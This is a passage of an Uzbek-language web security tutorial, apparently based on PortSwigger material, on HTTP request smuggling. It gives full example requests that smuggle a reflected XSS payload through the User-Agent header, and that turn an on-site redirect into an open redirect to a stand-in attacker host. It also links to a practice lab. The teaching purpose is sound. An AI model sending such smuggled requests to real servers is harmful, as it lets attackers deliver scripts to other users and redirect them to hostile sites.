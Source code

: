 Masalan tasavvur qiling `User-Agent` headerida Reflected XSS bor. Siz quyidagi tarzda Request Smuggling xujumini amalga oshirishingiz mumkin:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```

Keyingi foydalanuvchi soʻrovi smuggled requestga qoʻshiladi va ular responseda XSS payloadini kiritadi.

:::caution **Lab**
 [Reflected XSS qilish uchun HTTP Request Smugglingni exploit qilish ≫](https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss)
:::

## HTTP Request Smuggling orqali on-site redirection ni open-redirection ga aylantirish <a href="#http-request-smuggling-orqali-on-site-redirection-ni-open-redirection-ga-aylantirish" id="http-request-smuggling-orqali-on-site-redirection-ni-open-redirection-ga-aylantirish"></a>

Ko'p web saytlar bir URL dan boshqasiga o'tish uchun **on-site redirectdan** foydalanadi va hostnameni requestning **Host header**idan redirect qiluvchi URL ichiga joylashtiradi. Masalan ushbu hatti harakat Apache va IIS web serverlarida sukut bo'yicha yoqilgan bo'ladi, ya'ni, / belgisi mavjud bo'lmagan papka uchun so'rov / belgisi mavjud papkaga redirect qilinadi.

```http
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

Ushbu hatti harakat aslida zararlimas, lekin undan boshqa foydalanuvchilarni tashqi domenga yoʻnaltirish uchun Request Smuggling  hujumida foydalanish mumkin Masalan:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```
